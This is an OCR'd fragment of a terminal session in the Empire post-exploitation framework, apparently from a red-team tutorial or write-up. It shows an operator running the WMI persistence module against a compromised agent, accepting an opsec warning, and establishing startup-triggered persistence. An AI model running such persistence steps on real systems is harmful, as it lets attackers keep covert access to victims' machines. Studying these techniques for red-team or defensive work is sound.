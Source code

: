 ```
                                                    minutes) of system startup.             
  UserAgent   False       default                   User-agent string to use for the staging
                                                    request (default, none, or other).      
  FailedLogon False                                 Trigger script with a failed logon      
                                                    attempt from a specified user           

(Empire: powershell/persistence/elevated/wmi) > set Listener https
(Empire: powershell/persistence/elevated/wmi) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked TKV35P8X to run TASK_CMD_WAIT
[*] Agent TKV35P8X tasked with task ID 3
[*] Tasked agent TKV35P8X to run module powershell/persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > WMI persistence established using listener https with OnStartup WMI subsubscription trigger.

(Empire: powershell/persistence/elevated/wmi) >
```